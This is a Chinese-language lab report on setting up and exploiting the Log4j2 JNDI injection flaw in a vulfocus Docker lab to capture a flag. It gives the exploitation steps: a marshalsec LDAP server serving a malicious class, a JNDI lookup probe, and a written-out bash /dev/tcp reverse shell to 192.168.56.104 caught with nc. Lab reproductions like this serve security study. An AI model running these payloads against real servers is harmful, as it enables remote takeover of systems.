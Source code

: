 # 实验报告：Log4j2 44228漏洞环境搭建、漏洞验证与漏洞利用复现
## 一、实验目的
    搭建Log4j2 44228漏洞环境。
    验证漏洞的存在。
    利用漏洞获得flag

## 二、实验环境

### 操作系统：
1. Kali Linux
2. Java版本：JDK 1.8.0 202
3. Log4j2:
4. 测试工具：JNDI injector

## 三、实验步骤
### （一）漏洞环境搭建

    安装Java环境,下载并安装JDK1.8.0,验证java版本。
![alt text](./images/1742744070291.png)

    使用docker pull vulfocus/vulfocus:latest，编写vulfocus启动脚本,-d 是后台运行
![alt text](./images/1742744257111.png)


    赋予执行权限之后就可以运行这个脚本启动了
![alt text](./images/1742744336569.png)

    去镜像管理界面点击一键同步，搜索log4j2找到远程命令执行漏洞2，点击下载
![alt text](./images/1742744422165.png)


### （二）漏洞验证
    去首页启动该镜像，记住映射端口号
![alt text](./images/1742744483519.png)

    在浏览器中输入靶机网址：端口号，显示网页
![alt text](./images/1742744591379.png)

    在攻击者主机安装ldap server，编写启动脚本
1. marshalsec-0.0.3-SNAPSHOT-all.jar是反序列化利用工具
2. maeshalsec.jndi.LDAPRefServer用于启动LDAP服务
3. 指定恶意类的 URL 为"https://192.168.56.104:8080/#Exploit"
![alt text](./images/1742744780450.png)

    这个ldap服务器是用于在目标主机出发jndi查询的时候返回一个http的引用，运行此脚本
![alt text](./images/1742745347748.png)

    记住这个端口，构造payload，并使用url对其编码
![alt text](./images/1742745406763.png)

    复制编码，将其粘贴到payload=后面，并访问，显示ok
![alt text](./images/1742745504247.png)

    攻击者主机上面显示了查询记录
![alt text](./images/1742745549186.png)

    构造一个带有test.${java.version}的payload，并将其编码
![alt text](./images/1742799657079.png)

    访问后攻击者主机上显示了带有java版本的查询记录，这表示漏洞应该存在
![alt text](./images/1742799685712.png)

    


### （三）漏洞利用复现
    安装JNDI-Injection，编写启动脚本，赋予权限。
1. 带有-SNAPSHOT-all.jar的是反序列化利用工具
2. -C 后面接的是想运行的代码的base64编码 bash -i >& /dev/tcp/192.168.56.104/6666 0>&1
3. bash -i是启动一个交互式的bash shell，-i意思是interactive
4. \>& 是重定向操作符，用于将标准输出和标准错误

![alt text](./images/1742745720813.png)

    启动脚本，选择trustURLCodebase is false的那项
![alt text](./images/1742745749391.png)

    使用nc -lvvp 6666监听6666端口
![alt text](./images/1742745903162.png)

    构造payload
![alt text](./images/1742745926937.png)

    拿到shell
![alt text](./images/1742745978450.png)

    在tmp文件夹中找到flag
![alt text](./images/1742746026757.png)
